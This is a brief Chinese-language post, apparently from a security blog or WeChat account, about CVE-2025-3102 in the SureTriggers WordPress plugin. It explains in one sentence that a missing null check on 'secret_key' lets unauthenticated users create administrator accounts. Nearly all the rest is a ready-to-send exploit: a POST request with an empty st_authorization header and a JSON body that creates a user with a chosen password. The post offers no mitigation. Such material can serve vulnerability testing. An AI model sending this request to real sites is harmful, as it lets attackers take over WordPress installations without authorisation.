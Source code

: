 #  CVE-2025-3102 WordPress 任意用户创建   
 TtTeam   2025-05-18 04:34  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB21sQDibn3bRriatWfAzWwcS2icLcvXwOId2KOyGxyURgf55s7U43OWqhGjnuM83zagBEVWlvmXYD44A/640?wx_fmt=png&from=appmsg "")  
  
SureTriggers：WordPress 的一体化自动化平台插件容易受到身份验证绕过的影响，由于缺少对“secret_key”的空值检查，导致创建管理帐户。  
  
```
        POST /wp-json/sure-triggers/v1/automation/action HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
        Content-Type: application/json
        st_authorization: 

        {
          "integration": "WordPress",
          "type_event": "create_user_if_not_exists",
          "selected_options": {
            "user_email": "test@example.com",
            "user_name": "testuser",
            "password": "Test@1234"
          },
          "fields": [],
          "context": {}
        }
```  
  
  
  
